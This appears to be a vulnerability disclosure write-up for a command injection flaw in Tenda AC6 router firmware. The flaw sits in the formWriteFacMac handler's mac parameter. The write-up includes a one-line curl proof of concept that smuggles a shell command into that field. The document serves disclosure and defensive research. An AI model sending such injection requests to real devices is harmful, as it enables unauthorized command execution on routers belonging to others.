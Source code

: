 ## Tenda AC6 command injection

### Overview

* Vendor: Tenda

* Product: Tenda AC6
* Version: V15.03.06.23_multi

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC6/AC6V2.0_V15.03.06.23_multi.zip

### Vulnerability details

Tenda AC6 V15.03.06.23 was found to contain a command injection vulnerability in the `formWriteFacMac` function via the `mac` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

![image](./img/2.png)

#### PoC

```
curl http://192.168.0.1/goform/WriteFacMac?mac=;ls%20%3E%20/tmp/1.txt;
```

![image-20250413210610225](./img/3.png)
